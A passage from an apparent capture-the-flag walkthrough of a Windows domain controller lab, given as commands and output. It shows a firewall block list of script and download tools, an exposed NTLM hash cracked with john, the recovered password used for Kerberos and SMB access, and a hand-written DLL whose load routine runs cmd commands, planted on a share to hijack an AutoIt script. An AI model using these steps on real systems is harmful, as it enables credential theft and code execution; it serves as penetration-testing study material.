    {A5EE88CD-85E3-4BDA-9756-CA00802B6592}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|RA42=IntErnet|RA62=IntErnet|App=%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe|Name=ps32|
    {9D90923C-1CCE-44B8-8FFD-1FB016DBD575}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|RA42=IntErnet|RA62=IntErnet|App=%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe|Name=ps64|
    {100DB01E-6F22-45DF-BC8C-953D2836E62D}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|RA42=IntErnet|RA62=IntErnet|App=%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell_ise.exe|Name=ps ISE32|
    {917B2A3C-8672-4393-A579-F8AA02FE7ECE}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|RA42=IntErnet|RA62=IntErnet|App=%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell_ise.exe|Name=ps ISE64|
    {278F752C-D1EE-4A5A-8CC4-8A73CA916E22}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|App=%SystemRoot%\System32\regsvr32.exe|Name=regsvr32-64|
    {C8F663E1-9CAB-4986-A10E-EFAF4F0C3D8D}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|App=%SystemRoot%\SysWOW64\regsvr32.exe|Name=regsvr32-32|
    {8E85F6E9-0E72-41C0-8D54-A7B8FEE9DD27}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|App=%SystemRoot%\System32\rundll32.exe|Name=rundll32-64|
    {103B780E-266E-43FD-B65B-1AE9D269F85D}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|App=%SystemRoot%\SysWOW64\rundll32.exe|Name=rundll32-32|
    {AF1FD765-9EA8-4CFF-9721-48F5B623A384}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|App=%SystemRoot%\SysWOW64\wscript.exe|Name=wscript32|
    {49C58F31-CADE-4387-BCB2-73A2187671E1}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|App=%SystemRoot%\System32\wscript.exe|Name=wscript64|
    {C0A660EF-84B7-4DC1-985B-30789746293B}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|RA42=IntErnet|RA62=IntErnet|App=%SystemRoot%\System32\certutil.exe|Name=certutil64|
    {F1684248-1A57-4A9E-BED5-0E9F6A749250}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|RA42=IntErnet|RA62=IntErnet|App=%SystemRoot%\SysWOW64\certutil.exe|Name=certutil32|
    {57E22581-16AB-4673-B2EA-8637BC07BB83}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|RA42=IntErnet|RA62=IntErnet|App=%SystemRoot%\System32\certoc.exe|Name=certoc|
    {D7871DF0-F71B-4BD0-B7DE-F8E6966A3640}    REG_SZ    v2.31|Action=Block|Active=TRUE|Dir=Out|App=%SystemDrive%\share\AutoIt3_x64.exe|Name=Block Autoit|
```

`Get-NetFirewallRule -PolicyStore ActiveStore | where {$_.Action -eq "Block"}`:
```
[...]

Name                          : {D7871DF0-F71B-4BD0-B7DE-F8E6966A3640}🔍
DisplayName                   : Block Autoit📌
Description                   : 
DisplayGroup                  : 
Group                         : 
Enabled                       : True
Profile                       : Any
Platform                      : {}
Direction                     : Outbound
Action                        : Block
EdgeTraversalPolicy           : Block
LooseSourceMapping            : False
LocalOnlyMapping              : False
Owner                         : 
PrimaryStatus                 : OK
Status                        : The rule was parsed successfully from the store. (65536)
EnforcementStatus             : {DisabledInProfile, ProfileInactive, Enforced}
PolicyStoreSource             : 
PolicyStoreSourceType         : GroupPolicy
RemoteDynamicKeywordAddresses : {}
```

`Get-NetFirewallRule -PolicyStore ActiveStore | where {$_.Action -eq "Block"} | select "DisplayName"`:
```
DisplayName 
----------- 
cscript64   
cscript32   
ps32        
ps64        
ps ISE32    
ps ISE64    
regsvr32-64 
regsvr32-32 
rundll32-64 
rundll32-32 
wscript32   
wscript64   
certutil64  
certutil32  
certoc      
Block Autoit
```

`Get-NetFirewallRule -PolicyStore ActiveStore -Name "{D7871DF0-F71B-4BD0-B7DE-F8E6966A3640}" | Get-NetFirewallApplicationFilter`:
```
Program : C:\share\AutoIt3_x64.exe📌
Package : 
```

`dir C:\`:
```
    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/12/2022   9:30 PM                Get-bADpasswords🔍
d-----         10/2/2021   8:24 PM                inetpub
d-----         10/7/2021   9:38 AM                Microsoft
d-----          5/8/2021  10:20 AM                PerfLogs
d-r---         3/25/2022   8:54 PM                Program Files
d-----         2/15/2022   8:42 PM                Program Files (x86)
d-----        12/29/2021  10:17 PM                script
d-----         1/14/2025   5:12 PM                share
d-----          7/7/2021   7:05 PM                StorageReports
d-r---         2/16/2022  10:00 PM                Users
d-----         4/19/2022   2:44 PM                Windows   
```

`dir C:\Get-bADpasswords`:
```
    Directory: C:\Get-bADpasswords


Mode                 LastWriteTime         Length Name      
----                 -------------         ------ ----      
d-----         9/29/2021   8:18 PM                Accessible
d-----         9/29/2021   6:54 PM                PSI       
d-----         9/29/2021   6:54 PM                Source    
-a----        10/12/2022  10:04 PM          11694 CredentialManager.psm1
-a----         3/21/2022   2:59 PM          20320 Get-bADpasswords.ps1🔍 
-a----         9/29/2021   6:53 PM         177250 Get-bADpasswords_2.jpg
-a----        10/12/2022  10:04 PM           5184 Helper_Logging.ps1    
-a----        10/12/2022  10:04 PM           6561 Helper_Passwords.ps1
-a----         9/29/2021   6:53 PM         149012 Image.png 
-a----         9/29/2021   6:53 PM           1512 LICENSE.md
-a----        10/12/2022  10:04 PM           4499 New-bADpasswordLists-Common.ps1
-a----        10/12/2022  10:04 PM           4335 New-bADpasswordLists-Custom.ps1
-a----        10/12/2022  10:04 PM           4491 New-bADpasswordLists-customlist.ps1                                  
-a----        10/12/2022  10:04 PM           4740 New-bADpasswordLists-Danish.ps1
-a----        10/12/2022  10:04 PM           4594 New-bADpasswordLists-English.ps1
-a----        10/12/2022  10:04 PM           4743 New-bADpasswordLists-Norwegian.ps1                                   
-a----         9/29/2021   6:53 PM           6567 README.md 
-a----        10/12/2022  10:04 PM           3982 run.vbs  
```

`type C:\Get-bADpasswords\Get-bADpasswords.ps1`:
```powershell
 # A few helper functions
#
# Find us here:
# - https://www.improsec.com
# - https://github.com/improsec
# - https://twitter.com/improsec
# - https://www.facebook.com/improsec

# ================ #
# CONFIGURATION => #
# ================ #

# Domain information
$domain_name = "windcorp"
$naming_context = 'DC=windcorp,DC=htb'

# Directories
$group_folder = '.\Accessible\AccountGroups'
$password_folder = '.\Accessible\PasswordLists'

# Logging
$current_timestamp = Get-Date -Format ddMMyyyy-HHmmss

#Actions if password is weak
# - resetPWd = Resets the users password to a random password
# - removeNoExpire = Unticks "Password never expires"
# - changePassLogon = Ticks the "The user must change password on next logon"
#
#IMPORTANT: If resetPwd is enabled, the users password will be changed to a random password.
#That password are logged in logfile, so remember to delete the logs.📌

$resetPwd = $false 
$removeNoExpire = $false
$changePassLogon = $false

$log_filename  = ".\Accessible\Logs\log_$domain_name-$current_timestamp.txt"📌
$csv_filename  = ".\Accessible\CSVs\exported_$domain_name-$current_timestamp.csv"📌

$write_to_log_file = $true
$write_to_csv_file = $true
$write_hash_to_logs = $true📌

[...]

exit
 

# SIG # Begin signature block
# MIIIbwYJKoZIhvcNAQcCoIIIYDCCCFwCAQExCzAJBgUrDgMCGgUAMGkGCisGAQQB
# gjcCAQSgWzBZMDQGCisGAQQBgjcCAR4wJgIDAQAABBAfzDtgWUsITrck0sYpfvNR
# AgEAAgEAAgEAAgEAAgEAMCEwCQYFKw4DAhoFAAQUUGZp8caGy/i0f4q5GgmPVLHR

[...]

# yMFxE9W0ENJq3FG/ehjV+xSo2ybr35CozLgG0rRM17Lcony9NRYVLF/m3aJj32qY
# e+Jx
# SIG # End signature block
```

`dir C:\Get-bADpasswords\Accessible\Logs\`:
```
    Directory: C:\Get-bADpasswords\Accessible\Logs

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         10/3/2021   5:35 PM           1331 log_windcorp-03102021-173510.txt
-a----         10/3/2021   6:07 PM           1331 log_windcorp-03102021-180635.txt
-a----         10/3/2021   6:21 PM           1217 log_windcorp-03102021-182114.txt
-a----         10/3/2021   6:23 PM           1217 log_windcorp-03102021-182259.txt
-a----         10/3/2021   6:28 PM           1331 log_windcorp-03102021-182627.txt
-a----         10/3/2021   6:52 PM           1331 log_windcorp-03102021-185058.txt
-a----         10/4/2021  11:37 AM           1331 log_windcorp-04102021-113140.txt
-a----         10/5/2021   6:40 PM           1331 log_windcorp-05102021-183949.txt
-a----        10/13/2022   9:13 PM           1331 log_windcorp-13102022-210856.txt
-a----        10/13/2022   9:13 PM           1331 log_windcorp-13102022-210946.txt
-a----         3/17/2022   4:40 AM            846 log_windcorp-17032022-044053.txt
-a----         3/18/2022   4:40 AM            846 log_windcorp-18032022-044046.txt
```

`type C:\Get-bADpasswords\Accessible\Logs\log_windcorp-13102022-210946.txt`:
```
13.10.2022-21:09:50     info    Version:        'Get-bADpasswords v3.03'.
13.10.2022-21:09:50     info    Log file:       '.\Accessible\Logs\log_windcorp-13102022-210946.txt'.
13.10.2022-21:09:50     info    CSV file:       '.\Accessible\CSVs\exported_windcorp-13102022-210946.csv'.
13.10.2022-21:09:51     info    Testing versioning for files in '.\Accessible\PasswordLists'...
13.10.2022-21:09:52     info    'weak-passwords-common.txt' repack is up to date...
13.10.2022-21:09:52     info    'weak-passwords-da.txt' repack is up to date...
13.10.2022-21:09:52     info    'weak-passwords-en.txt' repack is up to date...
13.10.2022-21:09:52     info    'weak-passwords-no.txt' repack is up to date...
13.10.2022-21:09:52     info    Replicating AD user data with parameters (DC = 'hathor', NC = 'DC=windcorp,DC=htb')...
13.10.2022-21:10:11     info    The AD returned 3538 users.
13.10.2022-21:10:27     info    Testing user passwords against password lists...
13.10.2022-21:13:32     info    Finished comparing passwords.
13.10.2022-21:13:35     info    Found 1 user(s) with weak passwords.📌
13.10.2022-21:13:35     info    Matched password found for user 'BeatriceMill' in list(s) 'leaked-passwords-v7'.📌
13.10.2022-21:13:35     info    Found a total of '0' user(s) with empty passwords
13.10.2022-21:13:35     info    Found a total of '1' user(s) with weak passwords
13.10.2022-21:13:35     info    Found a total of '' user(s) with shared passwords
```

`dir C:\Get-bADpasswords\Accessible\CSVs`:
```
    Directory: C:\Get-bADpasswords\Accessible\CSVs

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         10/3/2021   5:35 PM            248 exported_windcorp-03102021-173510.csv
-a----         10/3/2021   6:07 PM            248 exported_windcorp-03102021-180635.csv
-a----         10/3/2021   6:21 PM            112 exported_windcorp-03102021-182114.csv
-a----         10/3/2021   6:22 PM            112 exported_windcorp-03102021-182259.csv
-a----         10/3/2021   6:28 PM            248 exported_windcorp-03102021-182627.csv
-a----         10/3/2021   6:52 PM            248 exported_windcorp-03102021-185058.csv
-a----         10/4/2021  11:37 AM            248 exported_windcorp-04102021-113140.csv
-a----         10/5/2021   6:40 PM            248 exported_windcorp-05102021-183949.csv
-a----        10/13/2022   9:13 PM            248 exported_windcorp-13102022-210856.csv
-a----        10/13/2022   9:13 PM            248 exported_windcorp-13102022-210946.csv
-a----         1/15/2025   4:56 AM            248 exported_windcorp-15012025-044044.csv
-a----         3/17/2022   4:40 AM            112 exported_windcorp-17032022-044053.csv
-a----         3/18/2022   4:40 AM            112 exported_windcorp-18032022-044046.csv
```

`type C:\Get-bADpasswords\Accessible\CSVs\exported_windcorp-13102022-210946.csv`:
```
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)
active;weak;regular;BeatriceMill;S-1-5-21-3783586571-2109290616-3725730865-5992;9cb01504ba0247ad5c6e08f7ccae7903;'leaked-passwords-v7'📌
```


`vim ./beatricemill_ntlm_hash.txt`:
```
9cb01504ba0247ad5c6e08f7ccae7903
```

`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ./beatricemill_ntlm_hash.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
!!!!ilovegood17🔑    (?)     
1g 0:00:00:00 DONE (2025-01-15 04:20) 1.063g/s 15258Kp/s 15258Kc/s 15258KC/s !!!sean!!!..!!!!!?????
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```

`netexec smb 10.10.11.147 -u 'beatricemill' -p '!!!!ilovegood17'`:
```
SMB         10.10.11.147    445    10.10.11.147     [*]  x64 (name:10.10.11.147) (domain:10.10.11.147) (signing:True) (SMBv1:False)
SMB         10.10.11.147    445    10.10.11.147     [-] 10.10.11.147\beatricemill:!!!!ilovegood17 STATUS_NOT_SUPPORTED 
```
❌

`vim ./domain_users.txt`:
```
beatricemill
```

`kerbrute passwordspray --dc 10.10.11.147 -d 'windcorp.htb' ./domain_users.txt '!!!!ilovegood17'`:
```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/15/25 - Ronnie Flathers @ropnop

2025/01/15 04:22:41 >  Using KDC(s):
2025/01/15 04:22:41 >   10.10.11.147:88

2025/01/15 04:22:42 >  [+] VALID LOGIN:  beatricemill@windcorp.htb:!!!!ilovegood17🔑
2025/01/15 04:22:42 >  Done! Tested 1 logins (1 successes) in 0.891 seconds
```

`impacket-smbclient -k 'windcorp.htb/beatricemill:!!!!ilovegood17@hathor.windcorp.htb'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
share
SYSVOL
# use share
# ls
drw-rw-rw-          0  Wed Jan 15 04:22:44 2025 .
drw-rw-rw-          0  Tue Apr 19 08:45:15 2022 ..
-rw-rw-rw-    1013928  Wed Jan 15 04:22:44 2025 AutoIt3_x64.exe🔍
-rw-rw-rw-    4601208  Wed Jan 15 04:22:44 2025 Bginfo64.exe
drw-rw-rw-          0  Mon Mar 21 17:22:59 2022 scripts
# cd ./scripts
# ls
drw-rw-rw-          0  Mon Mar 21 17:22:59 2022 .
drw-rw-rw-          0  Wed Jan 15 04:32:44 2025 ..
-rw-rw-rw-    1076736  Wed Jan 15 04:35:43 2025 7-zip64.dll
-rw-rw-rw-      54739  Sun Jan 23 05:54:21 2022 7Zip.au3🔍
-rw-rw-rw-       2333  Sun Jan 23 05:54:21 2022 ZipExample.zip
-rw-rw-rw-       1794  Sun Jan 23 05:54:21 2022 _7ZipAdd_Example.au3
-rw-rw-rw-       1855  Sun Jan 23 05:54:21 2022 _7ZipAdd_Example_using_Callback.au3
-rw-rw-rw-        334  Sun Jan 23 05:54:21 2022 _7ZipDelete_Example.au3
-rw-rw-rw-        859  Sun Jan 23 05:54:21 2022 _7ZIPExtractEx_Example.au3
-rw-rw-rw-       1867  Sun Jan 23 05:54:21 2022 _7ZIPExtractEx_Example_using_Callback.au3
-rw-rw-rw-        830  Sun Jan 23 05:54:21 2022 _7ZIPExtract_Example.au3
-rw-rw-rw-       2027  Sun Jan 23 05:54:21 2022 _7ZipFindFirst__7ZipFindNext_Example.au3
-rw-rw-rw-        372  Sun Jan 23 05:54:21 2022 _7ZIPUpdate_Example.au3
-rw-rw-rw-        886  Sun Jan 23 05:54:21 2022 _Archive_Size.au3
-rw-rw-rw-        201  Sun Jan 23 05:54:21 2022 _CheckExample.au3
-rw-rw-rw-        144  Sun Jan 23 05:54:21 2022 _GetZipListExample.au3
-rw-rw-rw-        498  Sun Jan 23 05:54:21 2022 _MiscExamples.au3
# mget *.au3
[*] Downloading 7Zip.au3
[*] Downloading _7ZipAdd_Example.au3
[*] Downloading _7ZipAdd_Example_using_Callback.au3
[*] Downloading _7ZipDelete_Example.au3
[*] Downloading _7ZIPExtractEx_Example.au3
[*] Downloading _7ZIPExtractEx_Example_using_Callback.au3
[*] Downloading _7ZIPExtract_Example.au3
[*] Downloading _7ZipFindFirst__7ZipFindNext_Example.au3
[*] Downloading _7ZIPUpdate_Example.au3
[*] Downloading _Archive_Size.au3
[*] Downloading _CheckExample.au3
[*] Downloading _GetZipListExample.au3
[*] Downloading _MiscExamples.au3
# mget 7-zip64.dll
[*] Downloading 7-zip64.dll
```

`cat ./7Zip.au3`:
```
[...]

Global $sZip32Dll = "7-zip32.dll"
Global $sZip64Dll = "7-zip64.dll"📌

[...]

If @OSArch = "X86" Then
    $hDLL_7ZIP = DllOpen($sNoCompiledPath & $sZip32Dll) ; Open x32 dll from no compiled path
Else
    $hDLL_7ZIP = DllOpen($sNoCompiledPath & $sZip64Dll) ; Open x64 dll from no compiled path📌
EndIf

[...]

Local $aRet = DllCall($hDLL_7ZIP, "int", "SevenZip", "hwnd", $hWnd, "str", "a " & $sArcName & " " & $sFileName & " " & $iSwitch, "ptr", DllStructGetPtr($tOutBuffer), "int", DllStructGetSize($tOutBuffer))📌

[...]
```

`sudo tcpdump -i tun0 icmp`:
```
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes

[...]
```

`vim ./7-zip64.cpp`:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
    HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c ping 10.10.14.37");
            break;

        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

`x86_64-w64-mingw32-gcc -shared -o 7-zip64.dll 7-zip64.cpp`

`file ./7-zip64.dll`:
```
7-zip64.dll: PE32+ executable (DLL) (console) x86-64, for MS Windows, 20 sections
```

`ls -l ./7-zip64.dll`:
```
-rwxrwxr-x 1 nabla nabla 85998 Jan 16 09:13 ./7-zip64.dll
```

`sudo rm /etc/krb5.conf`

`sudo vim /etc/krb5.conf`:
```
[libdefaults]
    default_realm = WINDCORP.HTB
    ticket_lifetime = 24h
    renew_lifetime = 7d
    forwardable = true
    rdns = false
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    WINDCORP.HTB = {
        kdc = hathor.windcorp.htb
        admin_server = hathor.windcorp.htb
    }

[domain_realm]
    .windcorp.htb = WINDCORP.HTB
    windcorp.htb = WINDCORP.HTB
```

`impacket-getTGT 'windcorp.htb/beatricemill:!!!!ilovegood17'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in beatricemill.ccache🎟️
```

`klist -c ./beatricemill.ccache`:
```
Ticket cache: FILE:./beatricemill.ccache
Default principal: beatricemill@WINDCORP.HTB

Valid starting     Expires            Service principal
01/16/25 09:39:26  01/16/25 19:39:26  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 01/17/25 09:39:22
```

`export KRB5CCNAME=/home/nabla/beatricemill.ccache`

`smbclient -k --user='beatricemill@WINDCORP.HTB' --password='!!!!ilovegood17' --list='//10.10.11.147/'`:
```
WARNING: The option -k|--kerberos is deprecated!

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        share           Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to hathor.windcorp.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

`smbclient -k --user='beatricemill@WINDCORP.HTB' --password='!!!!ilovegood17' //hathor.windcorp.htb/share`:
```
WARNING: The option -k|--kerberos is deprecated!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jan 16 10:00:59 2025
  ..                                DHS        0  Tue Apr 19 08:45:15 2022
  AutoIt3_x64.exe                     A  1013928  Thu Mar 15 09:17:44 2018
  Bginfo64.exe                        A  4601208  Thu Sep 19 16:15:38 2019
  scripts                             D        0  Mon Mar 21 17:22:59 2022

                10328063 blocks of size 4096. 2278553 blocks available
smb: \> cd scripts
smb: \scripts\> ls
  .                                   D        0  Mon Mar 21 17:22:59 2022
  ..                                  D        0  Thu Jan 16 10:00:59 2025
  7-zip64.dll                         A  1076736  Mon Mar 21 09:43:58 2022
  7Zip.au3                            A    54739  Thu Oct 18 16:02:02 2012
  ZipExample.zip                      A     2333  Sat Oct  6 17:50:30 2012
  _7ZipAdd_Example.au3                A     1794  Sun Oct  7 07:15:16 2012
  _7ZipAdd_Example_using_Callback.au3      A     1855  Sun Oct  7 07:17:14 2012
  _7ZipDelete_Example.au3             A      334  Sat Oct  6 21:37:38 2012
  _7ZIPExtractEx_Example.au3          A      859  Sat Oct  6 21:38:10 2012
  _7ZIPExtractEx_Example_using_Callback.au3      A     1867  Sat Oct  6 19:04:14 2012
  _7ZIPExtract_Example.au3            A      830  Sat Oct  6 21:37:50 2012
  _7ZipFindFirst__7ZipFindNext_Example.au3      A     2027  Sat Oct  6 19:05:12 2012
  _7ZIPUpdate_Example.au3             A      372  Sat Oct  6 21:39:04 2012
  _Archive_Size.au3                   A      886  Sun Jan 23 04:51:45 2022
  _CheckExample.au3                   A      201  Sat Oct  6 19:51:30 2012
  _GetZipListExample.au3              A      144  Sat Oct  6 21:39:22 2012
  _MiscExamples.au3                   A      498  Thu Nov 27 11:04:30 2008

                10328063 blocks of size 4096. 2278553 blocks available
smb: \scripts\> put 7-zip64.dll
putting file 7-zip64.dll as \scripts\7-zip64.dll (80.9 kb/s) (average 80.9 kb/s)
```

```
[...]

09:29:19.919046 IP 10.10.14.37 > hathor.windcorp.htb: ICMP echo request, id 17334, seq 1, length 64📌
09:29:20.043068 IP hathor.windcorp.htb > 10.10.14.37: ICMP echo reply, id 17334, seq 1, length 64
09:29:20.920973 IP 10.10.14.37 > hathor.windcorp.htb: ICMP echo request, id 17334, seq 2, length 64
09:29:21.038079 IP hathor.windcorp.htb > 10.10.14.37: ICMP echo reply, id 17334, seq 2, length 64
```

`vim ./7-zip64.cpp`:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
    HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
		case DLL_PROCESS_ATTACH:
		    system("cmd /c echo ===== Cacls Output for c:\\share ===== > c:\\windows\\temp\\info.txt");
		    // Append the access control list (ACL) details for the directory "C:\share" to info.txt
		    system("cmd /c cacls c:\\share >> c:\\windows\\temp\\info.txt");
			
		    system("cmd /c echo ===== Cacls Output for c:\\share\\* ===== >> c:\\windows\\temp\\info.txt");
		    // Append the ACL details for all files in "C:\share" to info.txt
		    system("cmd /c cacls c:\\share\\* >> c:\\windows\\temp\\info.txt");
			
		    system("cmd /c echo ===== Whoami Privileges and Groups ===== >> c:\\windows\\temp\\info.txt");
		    // Append the current user's privileges, SID, and group information to info.txt
		    system("cmd /c whoami /priv /user /groups >> c:\\windows\\temp\\info.txt");
			
		    // Modify the permissions for info.txt to grant full control to everyone
		    system("cmd /c cacls c:\\windows\\temp\\info.txt /e /g everyone:F");
		    break;
		
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

`x86_64-w64-mingw32-gcc -shared -o 7-zip64.dll 7-zip64.cpp`

`smbclient -k --user='beatricemill@WINDCORP.HTB' --password='!!!!ilovegood17' //hathor.windcorp.htb/share`:
```
WARNING: The option -k|--kerberos is deprecated!
Try "help" to get a list of possible commands.
smb: \> cd scripts
smb: \scripts\> put 7-zip64.dll 
putting file 7-zip64.dll as \scripts\7-zip64.dll (82.5 kb/s) (average 82.5 kb/s)
```


`type C://Windows/Temp/info.txt`:
```
===== Cacls Output for c:\share ===== 
c:\share NT AUTHORITY\IUSR:(OI)(CI)N 
         BUILTIN\IIS_IUSRS:(OI)(CI)N 
         WINDCORP\web:(OI)(CI)N 
         CREATOR OWNER:(OI)(CI)(IO)(special access:)

                                   DELETE
                                   READ_CONTROL
                                   WRITE_OWNER
                                   SYNCHRONIZE
                                   FILE_GENERIC_READ
                                   FILE_GENERIC_WRITE
                                   FILE_GENERIC_EXECUTE
                                   FILE_READ_DATA
                                   FILE_WRITE_DATA
                                   FILE_APPEND_DATA
                                   FILE_READ_EA
                                   FILE_WRITE_EA
                                   FILE_EXECUTE
                                   FILE_DELETE_CHILD
                                   FILE_READ_ATTRIBUTES
                                   FILE_WRITE_ATTRIBUTES
 
         NT AUTHORITY\SYSTEM:(OI)(CI)F 
         WINDCORP\ITDep:(OI)(IO)(special access:)📌

                                READ_CONTROL
                                WRITE_OWNER
                                SYNCHRONIZE
                                FILE_GENERIC_READ
                                FILE_GENERIC_EXECUTE
                                FILE_READ_DATA
                                FILE_READ_EA
                                FILE_EXECUTE
                                FILE_READ_ATTRIBUTES
 
         WINDCORP\ITDep:(special access:)

                        WRITE_OWNER
                        SYNCHRONIZE
 
         BUILTIN\Administrators:(OI)(CI)F 
         BUILTIN\Users:(OI)(IO)R 
         BUILTIN\Users:(special access:)

                       READ_CONTROL
                       SYNCHRONIZE
                       FILE_GENERIC_READ
                       FILE_GENERIC_WRITE
                       FILE_GENERIC_EXECUTE
                       FILE_READ_DATA
                       FILE_WRITE_DATA
                       FILE_APPEND_DATA
                       FILE_READ_EA
                       FILE_WRITE_EA
                       FILE_EXECUTE
                       FILE_READ_ATTRIBUTES
                       FILE_WRITE_ATTRIBUTES
 

===== Cacls Output for c:\share\* ===== 
c:\share\AutoIt3_x64.exe📌 NT AUTHORITY\IUSR:N 
                         BUILTIN\IIS_IUSRS:N 
                         NT AUTHORITY\SYSTEM:F 
                         BUILTIN\Administrators:F 
                         BUILTIN\Users:R 
                         WINDCORP\ITDep:(special access:)📌

                                        READ_CONTROL
                                        SYNCHRONIZE
                                        FILE_GENERIC_READ
                                        FILE_GENERIC_EXECUTE
                                        FILE_READ_DATA
                                        FILE_READ_EA
                                        FILE_EXECUTE
                                        FILE_DELETE_CHILD
                                        FILE_READ_ATTRIBUTES
 

c:\share\Bginfo64.exe📌 NT AUTHORITY\IUSR:(ID)N 
                      BUILTIN\IIS_IUSRS:(ID)N 
                      WINDCORP\web:(ID)N 
                      BUILTIN\Administrators:(ID)(special access:)

                                                 DELETE
                                                 READ_CONTROL
                                                 WRITE_OWNER
                                                 SYNCHRONIZE
                                                 FILE_GENERIC_READ
                                                 FILE_GENERIC_WRITE
                                                 FILE_GENERIC_EXECUTE
                                                 FILE_READ_DATA
                                                 FILE_WRITE_DATA
                                                 FILE_APPEND_DATA
                                                 FILE_READ_EA
                                                 FILE_WRITE_EA
                                                 FILE_EXECUTE
                                                 FILE_DELETE_CHILD
                                                 FILE_READ_ATTRIBUTES
                                                 FILE_WRITE_ATTRIBUTES
 
                      NT AUTHORITY\SYSTEM:(ID)F 
                      WINDCORP\ITDep:(ID)(special access:)📌

                                         READ_CONTROL
                                         WRITE_OWNER
                                         SYNCHRONIZE
                                         FILE_GENERIC_READ
                                         FILE_GENERIC_EXECUTE
                                         FILE_READ_DATA
                                         FILE_READ_EA
                                         FILE_EXECUTE
                                         FILE_READ_ATTRIBUTES
 
                      BUILTIN\Administrators:(ID)F 
                      BUILTIN\Users:(ID)R 

c:\share\scripts📌 BUILTIN\IIS_IUSRS:(OI)(CI)(DENY)(special access:)

                                           READ_CONTROL
                                           FILE_READ_DATA
                                           FILE_READ_EA
                                           FILE_EXECUTE
                                           FILE_READ_ATTRIBUTES
 
                 NT AUTHORITY\IUSR:(OI)(CI)(DENY)(special access:)

                                           READ_CONTROL
                                           FILE_READ_DATA
                                           FILE_READ_EA
                                           FILE_EXECUTE
                                           FILE_READ_ATTRIBUTES
 
                 BUILTIN\Administrators:(OI)(CI)F 
                 CREATOR OWNER:(OI)(CI)(IO)(special access:)

                                           DELETE
                                           READ_CONTROL
                                           WRITE_OWNER
                                           SYNCHRONIZE
                                           FILE_GENERIC_READ
                                           FILE_GENERIC_WRITE
                                           FILE_GENERIC_EXECUTE
                                           FILE_READ_DATA
                                           FILE_WRITE_DATA
                                           FILE_APPEND_DATA
                                           FILE_READ_EA
                                           FILE_WRITE_EA
                                           FILE_EXECUTE
                                           FILE_DELETE_CHILD
                                           FILE_READ_ATTRIBUTES
                                           FILE_WRITE_ATTRIBUTES
 
                 WINDCORP\ITDep:(OI)(IO)(special access:)📌

                                        READ_CONTROL
                                        SYNCHRONIZE
                                        FILE_GENERIC_READ
                                        FILE_GENERIC_EXECUTE
                                        FILE_READ_DATA
                                        FILE_READ_EA
                                        FILE_EXECUTE
                                        FILE_DELETE_CHILD
                                        FILE_READ_ATTRIBUTES
 
                 NT AUTHORITY\SYSTEM:(OI)(CI)F 
                 BUILTIN\Users:(OI)(CI)R 

===== Whoami Privileges and Groups ===== 

USER INFORMATION
----------------

User Name           SID                                           
=================   ==============================================
windcorp\ginawild📌 S-1-5-21-3783586571-2109290616-3725730865-2663


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
